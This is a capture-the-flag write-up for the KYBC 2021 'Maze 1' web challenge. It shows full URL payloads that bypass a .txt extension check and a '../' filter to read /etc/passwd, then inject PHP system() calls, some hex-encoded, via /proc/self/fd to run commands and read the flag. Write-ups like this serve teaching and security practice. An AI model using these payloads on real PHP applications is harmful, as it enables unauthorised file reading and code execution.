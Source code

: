 Title: KYBC 2021 - Maze 1 Writeup
Date: 2021-03-17
Category: CTF
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-writeups
Author: Giulia Vergottini
Summary: My writeup for Maze 1 challenge at KYBC CTF


The site is basically a search box that checks for matching txt files and then redirects to `http://5.150.254.85:8082/lookup.php?f=file.txt` to display the content of the file. `flag.txt` obviously leads to a fake flag, but the whole thing looks like a potential LFI.

Trying to reach a file with an extension other than `.txt` results in an error. However, appending an extra `f` parameters after one with the `.txt` extension lets me bypass the extension check and access the content of the last file.

The txt files are inside a `files/` folder and there seem to be some sort of sanitization mechanism, since `../` get stripped away. However, the filter applies only to that specific pattern, so `....//` becomes `../` after sanitation and allows me to look up into the parent folder.

Combining the two bypasses together gets me the `etc/passwd` file:

```
http://5.150.254.85:8082/lookup.php?f=flag.txt&f=....//....//....//....//etc/passwd`
```

The flag doesn't seem to be there though.

Let's see if it is possible to turn this LFI into an RCE, since trying to guess name and location of the flag doesn't sound like a realistic strategy.

By examining the `proc/self/fd` folder I discover that `proc/self/fd/11` stores the serialized parameters of the search request. Let's see if we can write by making a POST request containing `<?php system('id'); ?>`

```
http://5.150.254.85:8082/search=%3C%3Fphp+system%28%27id%27%29%3B+%3F%3E&submit=submit
```
and check the proc file again

```
http://5.150.254.85:8082/lookup.php?f=flag.txt&f=....//....//....//....//proc/self/fd/11
```

Yeah! The code gets executed and the result gets saved into it!!

Let's run `ls /`
```
http://5.150.254.85:8082/search=%3C%3Fphp%20system%28%27ls%20-al%27%29%3B%20%3F%3E&submit=submit

```

No flag in the root folder, but `home/ctf_user1` seems interesting:
```
http://5.150.254.85:8082/search=%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%27%6c%73%20%2d%61%6c%20%2f%68%6f%6d%65%2f%63%74%66%5f%75%73%65%72%31%27%29%3b%20%3f%3e&submit=submit
```

there's the flag - let's cat it!

```
http://5.150.254.85:8082/search=%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%27%63%61%74%20%2f%68%6f%6d%65%2f%63%74%66%5f%75%73%65%72%31%2f%2e%33%33%36%64%35%65%62%63%35%34%33%36%35%33%34%65%36%31%64%31%36%65%36%33%64%64%66%63%61%33%32%37%5f%66%6c%61%67%31%2e%74%78%74%27%29%3b%20%3f%3e&submit=submit
```

Success! `FLAG_c4a66ead822b8d2dd42da826eb180371`
